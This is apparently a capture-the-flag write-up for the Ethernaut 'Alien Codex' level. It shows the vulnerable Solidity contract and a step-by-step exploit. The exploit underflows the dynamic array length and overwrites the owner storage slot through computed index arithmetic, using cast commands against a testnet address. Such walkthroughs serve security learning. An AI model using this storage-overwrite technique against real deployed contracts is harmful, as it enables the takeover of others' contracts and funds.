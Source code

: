 ```yaml
---
title: "Alien Codex"
tags: ["Underflow", "Overflow", "Inheritance", "Storage"]
reference: https://ethernaut.openzeppelin.com/level/19
---
```


# Description

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

- Understanding how array storage works
- Understanding ABI specifications
- Using a very underhanded approach

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

# Attack Idea

![](assets/lv_19_attack_idea.png)

# Attack Execution

1. call `makeContact()` function to change `contact` to `true`

2. call `retract()` function to underflow the length field 

```bash
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xB9B537c318d36F73cDEf26e4Dd3E1FD3c7618d62 1 --rpc-url $BASE_SEPOLIA_RPC
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

3. get the address of `codex` for storing `codex[i]`

```
tim@tim-virtual-machine:~/git/the-ethernaut$ cast keccak $(cast to-uint256 1)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

4. calculate the offset `y` start from `codex[0]` such that `codex[y]` address = 0

```
>>> x = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
>>> y = hex(2**256 - x)
```

...

5. call `revise()` function to overwrite the owner state variable

```
cast send 0xB9B537c318d36F73cDEf26e4Dd3E1FD3c7618d62 "revise(uint256,bytes32)" 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a 0x000000000000000000000000b1473ba227c4645501e0e05f4839b00ed8320d33 --rpc-url $BASE_SEPOLIA_RPC
```

